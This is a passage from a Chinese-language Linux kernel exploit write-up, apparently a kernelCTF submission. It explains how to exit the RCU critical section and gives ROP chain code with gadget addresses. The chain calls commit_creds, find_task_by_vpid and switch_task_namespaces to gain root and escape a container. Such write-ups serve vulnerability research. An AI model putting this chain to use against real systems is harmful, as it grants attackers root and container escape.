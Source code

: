 nft_object  
 的操作是在 RCU 临界区中调用的，这对于 ROP 利用来说可能会产生问题，因为我们想要在执行完 payload 后切换到用户空间上下文，而这在 RCU 临界区中是不允许的。  
  
D3v17 在  
之前的 kernelCTF 提交[11]  
中讨论过一种解决方案，主要是使用内存写入小工具在切换到用户空间之前覆盖我们task_struct  
 中的 RCU 锁。虽然这种方法可行，但我在寻找有用的小工具时遇到了困难，最终想出了一个更简单的解决方案。内核 API 中专门有用于获取/释放 RCU 锁的函数，因此我们应该可以在切换上下文之前简单地调用__rcu_read_unlock()  
 函数并退出 RCU 临界区。  
```
    // ROP stage 1
    int pos = 3;

    rop[pos++] = kaslr_slide + __RCU_READ_UNLOCK;
```  
  
用于容器逃逸并获取 root 权限的大部分 ROP 链都是常规操作：  
- commit_creds(&init_cred);  
 为我们的进程提交 root 权限凭证  
  
- task = find_task_by_vpid(1);  
 查找我们命名空间中的 root 进程  
  
- switch_task_namespaces(task, &init_nsproxy);  
 将其移动到 root 命名空间  
  
然而，我在寻找能够轻松地将find_task_by_vpid(1)  
 通过rax  
 传递的返回值移动到rdi  
 的小工具时遇到了困难。最终我采用了一个push rax; jmp qword ptr [rsi + 0x66]; ret  
 小工具，它允许我将rax  
 值压入栈中，然后跳转到一个受控位置，在那里我存储了一个pop rdi; ret  
 小工具来消费新的栈值并恢复正常的 ROP 执行。这个 ROP 流程中的微小绕道如下所示：  
- 我们将值压入栈中（栈指针回退）  
  
- 我们跳转到我们的"跳板"小工具（pop rdi; ret;  
 位置）  
  
- pop rdi; ret  
 从栈中消费该值（将栈指针推进回应有的位置），然后我们跳回到下一个小工具  
  
```
[...]
    // commit_creds(&init_cred);
    rop[pos++] = kaslr_slide + 0xffffffff8112c7c0; // pop rdi; ret;
    rop[pos++] = kaslr_slide + INIT_CRED;
    rop[pos++] = kaslr_slide + COMMIT_CREDS;

    // task = find_task_by_vpid(1);
    rop[pos++] = kaslr_slide + 0xffffffff8112c7c0; // pop rdi; ret;
    rop[pos++] = 1;
    rop[pos++] = kaslr_slide + FIND_TASK_BY_VPID;
    rop[pos++] = kaslr_slide + 0xffffffff8102e2a6; // pop rsi; ret;
    rop[pos++] = obj_ptr + 0xe0 - 0x66;            // rax -> rdi and resume rop
    rop[pos++] = kaslr_slide + 0xffffffff81caed31; // push rax; jmp qword ptr [rsi + 0x66];

    // switch_task_namespaces(task, &init_nsproxy);
    rop[pos++] = kaslr_slide + 0xffffffff8102e2a6; // pop rsi; ret;
    rop[pos++] = kaslr_slide + INIT_NSPROXY;
    rop[pos++] = kaslr_slide + SWITCH_TASK_NAMESPACES;
[...]
```  
  
